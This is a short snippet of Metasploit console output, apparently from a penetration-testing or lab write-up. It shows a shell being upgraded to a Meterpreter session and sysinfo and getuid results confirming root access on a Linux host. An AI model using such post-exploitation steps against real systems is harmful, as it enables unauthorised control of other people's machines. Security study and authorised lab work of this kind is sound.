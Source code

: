 ```

msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 192.198.72.3
OS           :  (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```